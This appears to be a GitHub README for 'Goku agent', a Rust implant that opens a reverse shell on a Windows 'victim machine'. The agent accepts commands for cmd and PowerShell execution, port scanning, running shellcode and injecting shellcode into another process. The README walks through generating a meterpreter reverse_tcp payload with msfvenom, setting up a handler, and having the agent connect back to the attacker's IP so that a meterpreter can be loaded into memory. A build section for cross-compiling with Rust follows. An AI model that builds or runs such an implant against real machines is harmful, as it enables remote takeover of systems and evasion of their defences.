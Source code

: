## Goku agent

Allows to spawn a reverse shell without using cmd.exe permanently.

the cmd.exe is launch only if you make a request to the agent. The request is then launched into a dedicated thread of the process.

There are several commands that you can use:

* CMD your command
* PSH your command
* SCAN tcp ip port1 port2 port3
* ASM bytecode
* INJECT_SC PID bytecode
* PIPES_LS

That way you can launch a meterpreter directly into memory.

On your linux machine:
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=192.168.0.46 LPORT=4443 -f hex
$ sudo msfconsole
msf5> use windows/x64/shell_reverse_tcp
msf5> to_handler
```

On your windows machine:
```
$ .\goku_tcp -u 192.168.0.46 -p 4444
```

Then you can use the asm command to spawn a meterpreter on the victim machine.

## Build
To install rust and cargo:
```
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
$ source $HOME/.cargo/env
$ source ~/.profile (if using zsh, write into ~/.zshrc: export PATH="$HOME/.cargo/bin:$PATH")
$ rustup toolchain install nightly
$ cargo -V
$ rustc -V
```

to cross compile:
```
$ sudo apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64
$ rustup toolchain install stable-x86_64-pc-windows-gnu
$ rustup toolchain install nightly
$ rustup default nightly
$ rustup target add x86_64-pc-windows-gnu
```

Then:
```
cargo build  --target x86_64-pc-windows-gnu
```